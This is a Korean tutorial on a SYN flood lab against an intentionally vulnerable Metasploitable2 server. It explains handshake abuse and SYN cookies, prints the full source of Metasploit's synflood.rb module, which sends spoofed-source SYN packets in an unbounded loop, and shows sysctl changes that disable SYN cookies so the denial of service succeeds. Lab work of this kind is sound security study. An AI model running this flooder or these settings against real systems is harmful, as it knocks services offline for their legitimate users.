









# TCP SYN Flooding 공격 실습 

### SYN Flooding 개념  

- SYN Flooding 은 자원 소진 공격에 사용되는 가장 대표적인 방식입니다.  
- TCP 3-handshaking 을 악용한 방법으로, SYN 패킷을 전송하고 돌아오는 SYN/ACK 패킷에 대한 응답을 주지 않습니다. 
- 그렇게 시스템 연결이 반쯤 열린 상태로 남아 메모리와 리소스를 소모하게 만들어 서버 한도를 초과하여 실제 클라이언트의 연결을 거부하도록 만듭니다.  

<br>

### SYN Flooding DDOS 공격 원리   

SYN Flooding 공격은 TCP 연결 과정인 3-handshaking 을 악용한 방법입니다. 정상적인 상황과 공격 상황을 비교해가며 자세히 알아보겠습니다.  

<br>

  

**정상적인 3-handshaking**  

정상적인 연결에서는 클라이언트와 서버가, 세 단계로 패킷을 주고 받으며 연결을 만들어냅니다.  

- Client - Server : 클라이언트가 서버에 SYN 패킷을 보내며 연결을 요청합니다.
- Client - Server : 서버는 요청을 받고, 연결을 위해 자원을 할당한 뒤 SYN/ACK 패킷으로 응답합니다.
- Client - Server : 클라이언트가 ACK 확인 응답을 보내면 연결이 성립됩니다.

<br>

**SYN Flooding 공격에서는?**  

공격자는 이 과정 중 마지막 단계인 ACK 응답을 의도적으로 생략합니다.  
생략하는 이유는 반만 열린 연결(Half-Open Connection)을 강제로 유지시켜, 서버의 한정된 자원인 백로그 큐(Backlog Queue)를 가득 채우기 위해서입니다.  

자세한 흐름은 아래에 정리해두었습니다.  

- 공격자는 사전에 확보한 봇넷을 사용하여 IP를 위/변조한 후 공격대상 서버의 TCP Port를 향해 대규모의 SYN 패킷 전달합니다.
- 공격대상 서버는 봇넷이 요청한 SYN 패킷에 대한 응답으로 SYN/ACK 패킷을 전달합니다.
- 공격대상 서버는 SYN/ACK 에 대한 ACK 응답을 기다리기 위해 SYN 연결을 지속적으로 Backlog Queue에 저장하며 기다립니다.
- 공격자는 ACk 패킷을 보내지 않고 SYN 패킷만 보내어 공격대상 서버에서 가용할 수 있는 Backlog Queue를 전부 소모하게 만듭니다.
- Backlog Queue 가 전부 소모된 서버는 정상 사용자의 연결이 차단됩니다.


<br>

### 공격 실습 방법  

공격 실습은 metasploitable2를 활용할 것입니다.  
metasploitable2는 보안 학습과 취약점 진단 실습을 위해서, 의도적으로 취약하게 설계된 리눅스 서버입니다.   

공격대상 서버가 될 metasploitable 다운로드는 아래 링크에 정리해두었습니다.  

- metasploitable 세팅 - [/00-setup/setup.md](../00-setup/setup.md)


<br>

  

`sudo msfconsloe` 로 먼저 진입해준 뒤 `search` 명령어를 통해 `dos`와 `synflood` 모듈을 찾아주고 실행해줍니다.   

해당 모듈은 아래 링크에서 확인해볼 수 있습니다.  

- https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/tcp/synflood.rb


<br>

### 코드 분석  

모듈을 실행시켜보기 전에 메인 함수의 동작부터 먼저 파악해봅시다.   

**synflood.rb 전체 코드**
```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Capture
  include Msf::Auxiliary::Dos

  def initialize
    super(
      'Name' => 'TCP SYN Flooder',
      'Description' => 'A simple TCP SYN flooder',
      'Author' => 'kris katterjohn',
      'License' => MSF_LICENSE,
      'Notes' => {
        'Stability' => [CRASH_SERVICE_DOWN],
        'SideEffects' => [],
        'Reliability' => []
      }
    )

    register_options([
      Opt::RPORT(80),
      OptAddress.new('SHOST', [false, 'The spoofable source address (else randomizes)']),
      OptInt.new('SPORT', [false, 'The source port (else randomizes)']),
      OptInt.new('NUM', [false, 'Number of SYNs to send (else unlimited)'])
    ])
    deregister_options('FILTER', 'PCAPFILE')
  end

  def sport
    datastore['SPORT'].to_i.zero? ? rand(1..65535) : datastore['SPORT'].to_i
  end

  def rport
    datastore['RPORT'].to_i
  end

  def srchost
    datastore['SHOST'] || [rand(0x100000000)].pack('N').unpack('C*').join('.')
  end

  def run
    open_pcap

    sent = 0
    num = datastore['NUM'] || 0

    print_status("SYN flooding #{rhost}:#{rport}...")

    p = PacketFu::TCPPacket.new
    p.ip_saddr = srchost
    p.ip_daddr = rhost
    p.tcp_dport = rport
    p.tcp_flags.syn = 1

    while (num <= 0) || (sent < num)
      p.ip_ttl = rand(128..255)
      p.tcp_win = rand(1..4096)
      p.tcp_sport = sport
      p.tcp_seq = rand(0x100000000)
      p.recalc
      break unless capture_sendto(p, rhost)

      sent += 1
    end

    close_pcap
  end
end
```
<br>

**synflood.rb 분석**
```ruby
  def srchost
    datastore['SHOST'] || [rand(0x100000000)].pack('N').unpack('C*').join('.')
  end

  ... (생략)

    p = PacketFu::TCPPacket.new
    p.ip_saddr = srchost
    p.ip_daddr = rhost
    p.tcp_dport = rport
    p.tcp_flags.syn = 1

    while (num <= 0) || (sent < num)
      p.ip_ttl = rand(128..255)
      p.tcp_win = rand(1..4096)
      p.tcp_sport = sport
      p.tcp_seq = rand(0x100000000)
      p.recalc
      break unless capture_sendto(p, rhost)

      sent += 1
    end

```

코드의 동작은 매우 간단합니다. PacketFu 라이브러리를 사용하여 Raw 패킷을 생성하고, 이를 무한 루프 내에서 변조해가며 패킷을 보내는 것입니다.  

datastore['SHOST']가 설정되어 있으면 해당 주소를 사용하고, 그렇지 않다면 랜덤한 수를 사용합니다. 2^32-1 에 해당하는 수로 ipv4 의 랜덤 주소를 설정하는 것으로 알 수 있습니다.  
여기서 랜덤한 ip 주소를 사용하는 이유는, 3-handshaking 중 첫단계만 수행하고 뒤 단계는 수행하지 않기 때문에 엉뚱한 곳으로 응답을 보내게 하여 공격자의 정체를 숨길 수 있습니다.  

이제 새로운 ip 필드 p를 만들어준 뒤 필요한 값들을 넣어줍니다. SYN flag는 `p.tcp_flags.syn = 1`에서 1로 설정하여 알립니다. ttl window seqeunce 등의 값은 랜덤으로 넣어주며 `p.recalc` 으로 길이와 체크섬 계산을 해준 뒤, `capture_sendto(p, rhost)`로 전송이 이루어집니다.  

<br>


### 모듈 실행   

우선 모듈 실행 전에 openwrt에 기본적으로 설정되어있는 syn 방어 규칙을 확인해봅시다.  

```sh
root@OpenWrt:~# nft list table inet fw4 | grep syn
                tcp flags & (fin | syn | rst | ack) == syn jump syn_flood comment "!fw4: Rate limit TCP syn packets"
        chain syn_flood {
                oifname "eth0" tcp flags & (fin | syn | rst) == syn tcp option maxseg size set rt mtu comment "!fw4: Zone wan IPv4/IPv6 egress MTU fixing"
                iifname "eth0" tcp flags & (fin | syn | rst) == syn tcp option maxseg size set rt mtu comment "!fw4: Zone wan IPv4/IPv6 ingress MTU fixing"
```




`show options`로 모듈에서 세팅해주어야하는 값을 볼 수 있습니다. `set rhost` 를 통해 모듈 실행 대상 서버를 찾아줍시다.  
 
<br>

   
`RHOST` 에 공격 대상 서버의 ip 주소가 나타난 것을 확인해볼 수 있습니다. 이제 `run`으로 실행시켜봅시다.  

<br>

    
하지만 이렇게 실행을 시켜도 `http://<공격 대상 서버 주소>`에 연결이 잘 된다. 즉 DOS 공격이 통하지 않았습니다.  


실제로 전송이 잘 되지 않고 있는 것일 수도 있으니 공격 대상 서버에서 패킷을 수신하고 있는지 확인해봤습니다.   

<br>


### 공격 대상 서버 상태 확인 & 변경   

   

확인을 해본 결과 패킷은 매우 빠른 속도로 받아지고 있습니다.   
임의의 IP 주소로 랜덤한 포트들의 무수히 많은 요청이 들어오고 있습니다.   

<br>


  
패킷이 제대로 들어오고 있다는 것을 확인했으니, TCP 규칙에 대한 값을 확인해봤습니다.   

확인을 해보니, tcp_syncookies 가 1로 설정되어있는 것을 확인했습니다.   

SYN flooding 을 조금 더 효율적으로 실행시키기 위해서 임의로 서버의 상태를 변경해주었습니다. 각 값에 대한 설명은 아래에 적어두었습니다.    

<br>

  
- `net.ipv4.tcp_syncookies = 0`
  - SYN cookie 기능을 off (자세한 내용은 아래에 정리)
- `net.ipv4.tcp_synack_retries = 1`
  - 서버가 SYN-ACK을 재전송하는 재시도 횟수를 1회로 줄여줍니다. 
- `net.ipv4.tcp_max_syn_backlog = 64`
  - backlof queue의 크기를 64로 줄입니다. 


<br>

>**SYN Cookie 추가 설명**  
>
>SYN Cookie는 백로그 큐(Backlog Queue)가 가득 차는 문제를 해결하기 위해 고안된 Stateless(상태 비저장) 방어 기법입니다.
>
>**기존 방식의 문제점?**  
>정상적인 상황에서 서버는 클라이언트의 SYN 패킷을 받으면 메모리(Backlog Queue)를 할당하여 연결 정보를 저장합니다. 하지만 공격자가 수많은 거짓 SYN패킷을 보낸다면, 서버의 메모리가 금방 바닥나게 되어 정상적인 사용자의 요청을 거부하게 됩니다. 이럴 때 사용할 수 있는 방법이 SYN Cookie를 활성화하는 것입니다. 
>
>**SYN Cookie를 활성화하면?**  
>SYN Cookie를 활성화하면 서버는 백로그 큐가 가득 찼을 때 메모리에 정보를 저장하지 않습니다. 대신 정보를 기억하기 위해 다음과 같은 방법을 사용합니다.  
>
>- 서버가 SYN 수신: 서버는 SYN 패킷을 수신하여도 이에 대한 메모리를 할당하지 않습니다. 대신 클라이언트의 IP, 포트 번호, 시간 등을 조합하여 특별한 암호화된 값인 Cookie를 만듭니다.
>
>- 서버가 SYN/ACK 송신: 서버는 이 쿠키 값을 TCP 헤더의 'Sequence Number' 자리에 숨겨서 클라이언트에게 보냅니다.
>
>- 서버가 ACK 수신 : 정상적인 클라이언트라면 서버 시퀀스 + 1의 값을 ACK 패킷에 담아 보냅니다. 서버는 이 값을 보고 자신이 과거에 보낸 패킷이 맞음을 검증할 수 있으며 검증이 되었다면 메모리를 할당합니다.


<br>


  

패킷 전송 속도를 높이기 위해, 3개의 쉘에서 각각 모듈을 실행시켜주니 금방 DOS 공격이 성공했습니다.  

그럼 이제 다음장에서 새로운 metasploitable 서버를 생성하여 같은 방어 시스템을 구축해둔 뒤, 같은 공격을 실행하여 막을 수 있는지 확인해봅시다.  

<br>


### Refernce
- 자료:한국인터넷진흥원(KISA) DDOS 공격대응 가이드 : https://www.krcert.or.kr/kr/bbs/view.do?bbsId=B0000127&nttId=36186&menuNo=205021

- SYN Flooding 모듈 : https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/tcp/synflood.rb